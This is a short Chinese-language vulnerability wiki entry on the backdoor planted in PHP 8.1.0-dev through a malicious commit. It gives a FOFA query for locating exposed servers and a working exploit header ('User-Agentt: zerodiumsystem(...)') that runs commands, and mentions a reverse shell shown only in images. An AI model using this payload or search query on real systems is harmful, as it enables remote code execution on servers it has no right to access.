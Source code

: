 # PHP zerodium后门漏洞

## 漏洞描述

PHP开发工程师Jake Birchall在对其中一个恶意COMMIT的分析过程中发现，在代码中注入的后门是来自一个PHP代码被劫持的网站上，并且采用了远程代码执行的操作，并且攻击者盗用了PHP开发人员的名义来提交此COMMIT。

目前为止PHP官方并未就该事件进行更多披露，表示此次服务器被黑的具体细节仍在调查当中。由于此事件的影响，PHP的官方代码库已经被维护人员迁移至GitHub平台，之后的相关代码更新、修改将会都在GitHub上进行。

## 漏洞影响

> [!NOTE]
>
> PHP 8.1.0-dev

## FOFA

> [!NOTE]
>
> "PHP/8.1.0-dev"

## 漏洞复现

后门为添加请求头

```
User-Agentt: zerodiumsystem('id');
```

> [!NOTE]
>
> 是 User-Agentt 不是 User-Agent

![](http://wikioss.peiqi.tech/vuln/php-1.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

反弹shell

![](http://wikioss.peiqi.tech/vuln/php-2.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)